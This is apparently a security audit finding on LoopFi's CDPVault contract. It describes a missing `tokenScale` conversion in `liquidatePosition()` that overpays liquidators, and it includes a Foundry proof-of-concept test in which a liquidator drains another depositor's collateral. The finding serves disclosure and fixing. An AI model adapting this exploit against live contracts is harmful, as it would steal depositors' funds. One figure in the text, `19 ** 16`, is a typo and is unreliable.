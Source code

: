 ## [M] `CDPVault.liquidatePosition()` does not scale `takeCollateral` with `tokenScale`; therefore, it might send the wrong amount of collateral to the liquidator when `tokenScale ! = 1 ether`

First of all, in `CDPVault`, the amount of `collateral` maintained in each position is scaled using `tokenScale`. See the code in `deposit`:

[src/CDPVault.sol#L223-L233](repos/2024-07-loopfi/src/CDPVault.sol#L223-L233)

and the function `modifyCollateralAndDebt()`:

[src/CDPVault.sol#L367-L460](repos/2024-07-loopfi/src/CDPVault.sol#L367-L460)

For example, when withdrawing collateral, it will scale it with `tokenScale` from internal amount:

```javascript
  uint256 amount = wmul(abs(deltaCollateral), tokenScale);
            token.safeTransfer(collateralizer, amount);
```

However, when sending collateral to the liquidator, it uses the internal amount without scaling by `tokenScale` in function `liquidatePosition` at L565.

```javascript
 token.safeTransfer(msg.sender, takeCollateral);
```

As a result, when `tokenScale < 10 ** 18`, the above line actually send more tokens to the liquidator than it is supposed to, a loss of funds for the protocol.

In the following POC, we show:

1. We use a collateral token that has 16 decimals, as a a result, `tokenScale = 19 ** 16`.
2. Frank deposits 1M units of collateral.
3. The test contract deposits 100 units of collateral and then borrows 10 ether of underlying tokens, with the price of collateral being 1 ether.
4. The price of the collateral drops to 0.1 ether.
5. Kathy liquidates the position of the test contract with 1 ether of underlying tokens.
6. Kathy is supposed to receive 10.52 units of collateral; however, she receives 1052 units of collateral instead due to the above bug. This amount is much greater than the collateral for the position held by the test contract.
7. The protocol loses collateral to the liquidator, in particular, the collateral that is supposed to be owned by Frank.
8. Now, when Frank tries to withdraw his collateral, he fails.

Please run `forge test --match-test testLiquidate1 -vv`:

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import "forge-std/console2.sol";
import {TestBase, ERC20PresetMinterPauser} from "../TestBase.sol";

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {IERC20Metadata} from "@openzeppelin/contracts/token/ERC20/extensions/IERC20Metadata.sol";

import {IOracle} from "../../interfaces/IOracle.sol";
import {ICDPVaultBase} from "../../interfaces/ICDPVault.sol";
import {CDPVaultConstants, CDPVaultConfig} from "../../interfaces/ICDPVault.sol";
import {IPermission} from "../../interfaces/IPermission.sol";

import {WAD, wmul, wdiv, wpow, toInt256} from "../../utils/Math.sol";
import {CDPVault, VAULT_CONFIG_ROLE} from "../../CDPVault.sol";
import {console} from "forge-std/console.sol";
import {StdCheats} from "forge-std/StdCheats.sol";

contract MockTokenScaled is ERC20PresetMinterPauser {
    uint8 private _decimals;

    constructor(string memory name, string memory symbol, uint8 decimals_) ERC20PresetMinterPauser(name, symbol) {
        _decimals = decimals_;
    }

    function decimals() public view override returns (uint8) {
        return _decimals;
    }
}
import {CDPVault, VAULT_CONFIG_ROLE} from "../../CDPVault.sol";
import {console} from "forge-std/console.sol";

contract CDPVaultWrapper is CDPVault {
    constructor(CDPVaultConstants memory constants, CDPVaultConfig memory config) CDPVault(constants, config) {}
}

contract PositionOwner {
    constructor(IPermission vault) {
        // Allow deployer to modify Position
        vault.modifyPermission(msg.sender, true);
    }
}

contract CDPVaultTest is TestBase {
    MockTokenScaled tokenScaled;

    /*//////////////////////////////////////////////////////////////
                            HELPER FUNCTIONS
    //////////////////////////////////////////////////////////////*/

    function _depositCollateral(CDPVault vault, uint256 amount) internal {
        token.mint(address(this), amount);
        (uint256 collateralBefore, , , , , ) = vault.positions(address(this));
        token.approve(address(vault), amount);
        vault.deposit(address(this), amount);
        (uint256 collateralAfter, , , , , ) = vault.positions(address(this));
        assertEq(collateralAfter, collateralBefore + amount);
    }

    function _modifyCollateralAndDebt(CDPVault vault, int256 collateral, int256 debt) internal {
        if (debt < 0) {
            mockWETH.mint(address(this), uint256(-debt));
            mockWETH.approve(address(vault), uint256(-debt));
        }

        if (collateral > 0) {
            token.mint(address(this), uint256(collateral));
            token.approve(address(vault), uint256(collateral));
        }

        (uint256 collateralBefore, uint256 debtBefore, , , , ) = vault.positions(address(this));
        uint256 virtualDebtBefore = virtualDebt(vault, address(this));
        uint256 vaultCreditBefore = credit(address(this));

        vault.modifyCollateralAndDebt(address(this), address(this), address(this), collateral, debt);
        {
            (uint256 collateralAfter, uint256 debtAfter, , , , ) = vault.positions(address(this));
            assertEq(toInt256(collateralAfter), toInt256(collateralBefore) + collateral);
            assertEq(toInt256(debtAfter), toInt256(debtBefore) + debt);
        }

        uint256 virtualDebtAfter = virtualDebt(vault, address(this));
        int256 deltaDebt = toInt256(virtualDebtAfter) - toInt256(virtualDebtBefore);
        {
            uint256 tokensAfter = credit(address(this));
            assertEq(toInt256(tokensAfter), toInt256(vaultCreditBefore) + deltaDebt);
        }

        uint256 vaultCreditAfter = credit(address(this));
        assertEq(toInt256(vaultCreditBefore + virtualDebtAfter), toInt256(vaultCreditAfter + virtualDebtBefore));
        assertEq(toInt256(vaultCreditBefore + virtualDebtAfter), toInt256(vaultCreditAfter + virtualDebtBefore));
    }

    function _updateSpot(uint256 price) internal {
        oracle.updateSpot(address(token), price);
    }

    function _collateralizationRatio(CDPVault vault) internal view returns (uint256) {
        (uint256 collateral, , , , , ) = vault.positions(address(this));
        if (collateral == 0) return type(uint256).max;
        return wdiv(wmul(collateral, vault.spotPrice()), virtualDebt(vault, address(this)));
    }

    function _createVaultWrapper(uint256 liquidationRatio) private returns (CDPVaultWrapper vault) {
        CDPVaultConstants memory constants = _getDefaultVaultConstants();
        CDPVaultConfig memory config = _getDefaultVaultConfig();
        config.liquidationRatio = uint64(liquidationRatio);

        vault = new CDPVaultWrapper(constants, config);
    }

    function _setDebtCeiling(CDPVault vault, uint256 debtCeiling) internal {
        // cdm.setParameter(address(vault), "debtCeiling", debtCeiling);
        liquidityPool.setCreditManagerDebtLimit(address(vault), debtCeiling);
    }


    function printPosition(CDPVault vault, address p, string memory name) public{
        console2.log("\n =================================================");
        console2.log("position infor for ", name);

        (uint256 collateral, // [wad]
        uint256 debt, // [wad]
        uint256 lastDebtUpdate, // [timestamp]
        uint256 cumulativeIndexLastUpdate,
        uint192 cumulativeQuotaIndexLU,
        uint128 cumulativeQuotaInterest
        ) = vault.positions(p);

        console2.log("collateral: ", collateral);
        console2.log("debt: ", debt);
        console2.log("cumulativeQuotaInterest: ", cumulativeQuotaInterest);
        console2.log("lastUpdate: ", lastDebtUpdate);

        uint256 cumulativeIndexNow = liquidityPool.baseInterestIndex();
        uint256 cumulativeQuotaIndexNow = quotaKeeper.cumulativeIndex(address(tokenScaled));
        console2.log("cumulatveIndexNow: ", cumulativeIndexNow);
        console2.log("cumulativeIndexLastUpdate:", cumulativeIndexLastUpdate);
        console2.log("cumulativeQuotaIndexNow: ", cumulativeQuotaIndexNow);
        console2.log("cumulativeQuotaIndexLU: ", cumulativeQuotaIndexLU);
        console2.log("=================================================\n ");
    }


    function printBalances(address a, string memory name) public{
        console2.log("\n =================================================");
        console2.log("Balances for ", name);
        console2.log("Collateral balance: ", token.balanceOf(a));
        console2.log("borrow token balance: ", mockWETH.balanceOf(a));
        console2.log("=================================================\n ");
    }


function testLiquidate1() public{
        address Frank = makeAddr("Frank");
        address Kathy = makeAddr("Kathy");



        tokenScaled = new MockTokenScaled("TestToken", "TST", 16);  // 16 decimals

        CDPVault vault = createCDPVault(tokenScaled, 150 ether, 0, 1.25 ether, 1.0 ether, 0.95 ether);
        createGaugeAndSetGauge(address(vault), address(tokenScaled));

        // frank does a deposit 1M units
        tokenScaled.mint(Frank, 1000000*10**16);
        vm.startPrank(Frank);
        tokenScaled.approve(address(vault), 1000000*10**16); // 100 units
        vault.deposit(Frank, 1000000*10**16);
        vm.stopPrank();

        // this test contract does a deposit 100 units
        tokenScaled.mint(address(this), 100*10**16);
        tokenScaled.approve(address(vault), 100*10**16); // 100 units
        vault.deposit(address(this), 100*10**16);

        oracle.updateSpot(address(tokenScaled), 1 ether);
        vault.borrow(address(this), address(this), 10 ether);    // 10 ether debt, 100 units of collateral


        console2.log("\n \n --------------------liquidate now -----------------");
        oracle.updateSpot(address(tokenScaled), 0.1 ether);

        mockWETH.mint(Kathy, 1 ether);
        vm.startPrank(Kathy);
        mockWETH.approve(address(vault), 1 ether);
        vault.liquidatePosition(address(this), 1 ether);
        vm.stopPrank();

        printPosition(vault, address(this), "this position");
        console2.log("done");

        vm.startPrank(Frank);
        vm.expectRevert();  // not enough collatreral to withdraw now
        vault.withdraw(Frank, 1000000*10**16);
        vm.stopPrank();
}
}
```





